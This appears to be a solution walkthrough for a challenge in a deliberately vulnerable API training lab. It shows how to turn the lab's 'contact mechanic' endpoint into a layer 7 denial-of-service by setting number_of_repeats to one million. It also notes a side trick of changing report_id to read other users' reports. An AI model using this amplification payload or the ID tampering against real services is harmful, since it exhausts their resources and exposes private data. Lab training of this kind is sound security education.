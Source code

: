 # API4_2019_Lack_of_Resources_Rate_Limiting

The application does not impose any rate limits or restrictions on the number of requests. It allows attackers to abuse the available resources, leading them to exhaustion.

## Challenge 6 - Perform a layer 7 DoS using 'contact mechanic' feature

1. Login into your account;
2. Use the `contact mechanic` form and submit a request. Use the browser's inspector to intercept the API endpoint, the request, and the response payloads.
    The endpoint is `http://localhost:8888/workshop/api/merchant/contact_mechanic`.
    The response payload should be ***[bonus, you can change the `report_id` and access other users' data]***:

    ```json
    {
        "response_from_mechanic_api": {
            "id": 13,
            "sent": true,
            "report_link": "http://localhost:8888/workshop/api/mechanic/mechanic_report?report_id=13"
        },
        "status": 200
    }
    ```

    The `request` payload looks like the following:

    ```json
    {
        "mechanic_code": "TRAC_JME",
        "problem_details": "adasdsa",
        "vin": "1DRNT86VKBD275713",
        "mechanic_api": "http://localhost:8888/workshop/api/mechanic/receive_report",
        "repeat_request_if_failed": false,
        "number_of_repeats": 1
    }
    ```

3. Use Postman or curl to re-issue the request changing the payload to:

```json
{
    "mechanic_code": "TRAC_JME",
    "problem_details": "my car broke lose",
    "vin": "1DRNT86VKBD275713",
    "mechanic_api": "http://localhost:8888/workshop/api/mechanic/receive_report",
    "repeat_request_if_failed": true,
    "number_of_repeats": 1000000
}
```

The application will send 1 million requests to the mechanic API, leading to a DoS. It will reply:

```json
{
    "message": "Service unavailable. Seems like you caused layer 7 DoS :)"
}
```
